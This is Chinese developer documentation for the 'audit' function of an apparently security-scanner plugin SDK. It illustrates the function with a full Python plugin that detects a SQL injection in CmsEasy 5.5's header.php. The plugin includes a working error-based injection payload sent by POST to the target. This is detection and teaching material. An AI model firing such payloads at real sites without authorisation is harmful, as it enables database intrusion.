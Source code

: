 # audit
---

审计函数，该方法为插件继 assign 函数后被调用的函数，在 assign 中判断当前扫描服务与该插件对应的服务相等后，便会调用该插件的 audit 函数。**插件中必须声明此方法**。如果插件中逻辑较为复杂，开发者可自行封装方法，并在 audit 中调用执行即可。


```
audit(arg)
```

### 参数

* **arg**

 该插件所对应的 Service 共同约定的参数，一般为一个经过，具体参数格式可参考 assign 函数中 arg 参数。
 

### 返回值

无。如果检测到存在漏洞，则直接使用 security_info 等报告方法直接输出漏洞报告。


### 范例

以下为 [CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827) 的扫描插件。该漏洞为报错注入，如果 Payload 执行成功，则会在返回页面中显示执行成功的 md5(233) 的值。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# __author__ = 'Medici.Yan'
# 引入需要用到的标准库
import urllib

# assign 验证任务的指纹
def assign(service, arg):
    if service == fingerprint.cmseasy: # 指纹为 cmseasy
        return True, arg  # 返回类型为 tuple

# audit 审计函数，通过指纹验证后调用该函数
def audit(arg):
    # 此插件中 arg 为提交的网址
    # 构造要提交数据的目标 URL
    target = arg + '/celive/live/header.php'
    # 此漏洞要发送的 POST 数据(Payload)
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    # 通过 hackhttp 发送 Payload 到目标
    code, head, body, errcode, redirect_url = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    # 验证是否存在漏洞
    if 'e165421110ba03099a1c0393373c5b43' in body:
        # 存在漏洞则输出目标 URL
        security_hole(target)

# 本地测试时需要加 main 用于调用
if __name__ == '__main__':
    # 导入 sdk
    from dummy import *
    # 调用 audit 与 assign
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])

```